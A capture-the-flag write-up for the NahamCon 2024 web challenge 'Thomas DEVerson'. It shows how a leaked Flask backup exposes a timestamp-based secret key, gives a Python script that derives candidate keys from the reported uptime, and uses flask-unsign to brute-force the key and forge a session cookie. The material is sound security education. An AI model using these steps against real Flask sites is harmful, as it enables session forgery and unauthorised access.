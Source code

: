 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | Thomas DEVerson Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: web
challenge: Thomas DEVerson
tags: "web, legend, nigamelastic, twh, api, flask, flask-unsign"
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>


## Thomas DEVerson
> Solved by : Legend, nigamelastic, thewhiteh4t


- The site has 3 endpoints `messages` `login` and `status`
- if you put any random query as post on the login u are redirect to ‘messages’ without being logged in. 
- we find another directory called `backup` which has the following content.

```
command output: {head -n 10 app.py}

from flask import (Flask, flash, redirect, render_template, request, send_from_directory, session, url_for)
from datetime import datetime

app = Flask(__name__)

c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'

allowed_users = ['Jefferson', 'Madison', 'Burr'] # No Federalists Allowed!!!!

command output: {head -n 10 requirements.txt}

Flask==3.0.3
```

- All accounts show an error message on login attempts : `a``ccount is protected!`


- however the responses had some interesting cookies :

```
HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Thu, 23 May 2024 23:17:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
Vary: Cookie
Set-Cookie: session=.eJwNxcENgCAMBdBV6j8zgUcdwxDTYEUTKYaWk3F3fZf3YN0vtkMM4_KA_A9FzDgLAmZWrU5XzacSG029tUCcUu3qdBrdrbokl21AfGOAchGMyF3M8X7pNCAR.Zk_Olw.CgFkkfYZmHi5O8_eaqSwj7VohO8; HttpOnly; Path=/
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
```

- these look like JWT but these are slightly different
- flask cookies can be decoded using `flask-unsign` tool
- for example cookies on the homepage can be decoded like this : 

```
> flask-unsign --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.ZlDcbw.D5h97i6PYmF5THUXwBgTVzPXMbU' --decode
{'name': 'guest'}
```

- although the cookie can be read but it is signed, if we want to manipulate the cookie we need a `secret key` which was used in the app to sign the new new cookie
- going back to `/backup` we can see how the app generated the secret key :

```python
c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'
```

- and lets also take a look at the `/status` endpoint :

```
System healthy! Computing uptime... 82817 days 9 hours 48 minutes
```

- here the hint is that app was started once and it is running without fail
- we can roughly calculate the launch time using the following logic : 

```
launch time = current time - uptime
```

- this can easily be done using a python script but we wont get the exact time the key was generated because app launch and key generation will have different timings depending on multiple factors so we need to adjust the launch time a bit to get the exact key generation time

```
#!/usr/bin/env python3

import requests
from datetime import datetime, timedelta

base_url = 'http://challenge.nahamcon.com'
port = 30311
path = 'status'

url = f'{base_url}:{port}/{path}'
rqst = requests.get(url)

resp = rqst.text.split('\n')[1].split(' ')

days = int(resp[0])
hours = int(resp[2])
mins = int(resp[4])

uptime = timedelta(days=days, hours=hours, minutes=mins)

current_time = datetime.now()

launch_time = current_time - uptime

with open('list.txt', 'w') as outfile:
        for i in range(0, 1000):
                forward_time = launch_time - timedelta(minutes=i)
                format_time = forward_time.strftime("%Y%m%d%H%M")
                key = f'THE_REYNOLDS_PAMPHLET-{format_time}'
                outfile.write(key + '\n')
```

![](https://i.imgur.com/yPpAVlm.png)

- so now we have a list of possible keys which we can test using `flask-unsign` :


![](https://i.imgur.com/KzAzrbN.png)

- SECRET_KEY : `THE_REYNOLDS_PAMPHLET-179708250845`
- now we can easily modify the cookie and use any of the allowed usernames to read `/messages`

```
> flask-unsign --cookie "{'name': 'Burr'}" --sign --secret 'THE_REYNOLDS_PAMPHLET-179708250845'
eyJuYW1lIjoiQnVyciJ9.ZlDfmg.x3PYD73ZIkbVJhdpJ4c8UdYfGyg
```

![](https://i.imgur.com/IBfF7Bi.png)

